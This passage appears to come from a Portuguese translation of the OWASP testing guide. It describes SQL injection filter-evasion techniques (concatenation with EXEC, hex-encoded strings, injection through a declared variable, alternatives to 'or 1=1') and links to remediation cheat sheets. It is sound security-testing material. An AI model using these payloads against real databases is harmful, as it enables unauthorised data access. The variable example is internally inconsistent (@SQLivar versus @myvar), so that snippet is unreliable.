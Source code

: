 `select 1`

A simples instrução SQL pode ser alterada da seguinte forma usando concatenação:

`EXEC('SEL' + 'ECT 1')`

#### Codificação Hexadecimal

A técnica de codificação hexadecimal usa codificação hexadecimal para substituir caracteres da instrução SQL original. Por exemplo, `root` pode ser representado como `726F6F74`.

`Select user from users where name = 'root'`

A instrução SQL usando valor HEX será:

`Select user from users where name = 726F6F74`

ou

`Select user from users where name = unhex('726F6F74')`

#### Declaração de Variáveis

Declare a instrução de injeção de SQL em uma variável e a execute.

Por exemplo, a instrução de injeção de SQL abaixo

`Union Select password`

Defina a instrução SQL na variável `SQLivar`

```sql
; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password');
EXEC(@SQLivar)
```

#### Expressão Alternativa de 'or 1 = 1'

```sql
OR 'SQLi' = 'SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1
OR 2 between 3 and 1
OR 'SQLi' = N'SQLi'
1 and 1 = 1
1 || 1 = 1
1 && 1 = 1
```

## Remediação

- Para proteger a aplicação contra vulnerabilidades de injeção de SQL, consulte o [SQL Injection Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection

_Prevention_Cheat_Sheet.html).
- Para proteger o servidor SQL, consulte o [Database Security CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html).

Para validação genérica de segurança de entrada, consulte o [Input Validation CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html).
